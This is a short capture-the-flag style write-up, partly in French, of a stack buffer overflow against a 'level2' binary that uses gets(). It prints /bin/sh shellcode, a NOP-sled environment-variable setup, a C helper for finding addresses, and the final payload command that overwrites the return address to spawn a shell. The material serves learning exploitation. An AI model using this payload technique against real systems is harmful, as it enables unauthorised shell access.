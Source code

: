 How to calculate the size of the buffer (number of character we need ti fill before writing over eip) : 

We take the beginning of the buffer, it is located in eax register right after the call to `gets` function. We put a break point in the instruction next to that call, and we print information about eax register :


The shellcode to "/bin/sh" is : `"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"`

<!-- We put 200 'nop' instructions before the shellcode :
export SHELLCODE=`python -c 'print("\x90"*200+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'` -->

(after setting a breakpoint and running the program) How to find the address of the envirnment variable :
`x/20s *environ`

<!-- This is a program in C to print the address of the environment variable : 
`cat /tmp/print_env.c `
```
#include <stdio.h>

int main(int argc, char**argv)
{
	printf("%p\n", getenv("SHELLCODE"));
	return (1);
}
```
Compilate : `gcc -o /tmp/print_env /tmp/print_env.c` -->


The address of the environment variable is `0xbffff8d2`

The address of ret (from p function) is `0x0804853e`(Actually we could take the adress of the eip of p function when we put a breakpoint in ret, but we didn't do that).

<!-- cat /tmp/test - | ./level2 -->

<!-- La technique pour essayer de mettre le shellcode directement dans le buffer (avec un autre shellcode de 17 bytes) : `python -c 'print "\x90" * 63 + "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x3e\x85\x04\x08" + "\xec\xf5\xff\xbf"' > /tmp/test` (ne marche pas, erreur floating point blablabal) -->

La commande qui nous permet d'ouvrir le shell :  (python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\xd2\xf8\xff\xbf"' ; cat) | ./level2 --> 80 char pour overflow le buffer + l'adresse du ret + l'adresse du shellcode + cat pour empecher le shell de se fermer

# Sources :

Where to find the shellcode :
- https://beta.hackndo.com/buffer-overflow/#pratique
